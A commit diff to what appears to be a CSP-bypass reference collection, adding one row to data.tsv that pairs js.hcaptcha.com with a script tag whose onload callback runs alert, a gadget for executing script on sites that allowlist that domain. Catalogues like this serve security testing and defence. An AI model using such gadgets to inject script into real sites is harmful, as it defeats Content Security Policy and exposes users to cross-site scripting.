

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added js.hcaptcha.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 91: js.hcaptcha.com | <script src="https://js.hcaptcha.com/1/api.js?onload=alert&render=explicit"></script>
```
